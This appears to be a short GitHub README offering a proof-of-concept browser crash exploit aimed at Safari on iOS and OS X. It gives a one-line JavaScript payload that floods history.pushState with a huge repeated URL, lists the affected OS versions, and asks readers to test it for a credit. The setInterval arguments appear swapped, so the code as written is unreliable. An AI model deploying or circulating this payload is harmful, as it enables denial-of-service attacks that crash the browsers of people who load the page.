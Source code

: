 # safari_crash_poc
This is a POC of my bug that exploits "```javascript
setInterval```" and "```javascript
history.pushState```" to crash possibly multiple browsers, tested on OS X 10.11.6. (Please test it, I need to get an idea of support. I'll patch in your Twitter handle or give you a 3 character available GitHub. )
```javascript
setInterval(350,function f() {history.pushState(0,0,location+"af6.github.io/crash/".repeat(100000));});
```
# credits
me (duh)
# support
iOS 10

OS X 10.11.6
# probable support
iOS 11.X.X

iOS 9.X.X

macOS 10.12.X

macOS 10.13.X
